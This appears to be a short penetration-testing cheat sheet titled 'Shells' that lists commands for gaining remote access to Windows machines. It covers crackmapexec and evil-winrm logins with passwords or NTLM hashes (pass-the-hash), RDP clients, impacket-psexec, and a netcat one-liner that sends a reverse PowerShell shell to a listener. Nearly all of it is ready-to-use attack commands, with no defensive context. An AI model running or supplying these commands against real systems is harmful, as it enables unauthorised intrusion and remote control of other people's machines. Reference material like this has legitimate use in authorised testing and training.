 # 🐚 Shells

## Evil-WinRM

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

### Test with cme

```bash
cme winrm -i IP/hostname -u $USERNAME -p $PASSWORD/-H $LM_HASH
```

### Port : 5985

```bash
evil-winrm -i IP/hostname -u $USERNAME -H $HASH

evil-winrm -i IP/hostname -u $USERNAME -p $PASSWORD
```

## RDP

### freerdp

```bash
freerdp /u:$user /p:$password /v:$ip
```

### remmina

```bash
remmina -c rdp://$user@$ip
```

## `Impacket-psexec`

PSEXEC like functionality example using RemComSvc

```bash
impacket-psexec '$user:$password@$ip'
psexec.py $user:$pass@$ip
```

## `netcat`

```bash
# Windows
# server : 
nc.exe $ip $port -e powershell

# client : 
nc -lvnp $port
```
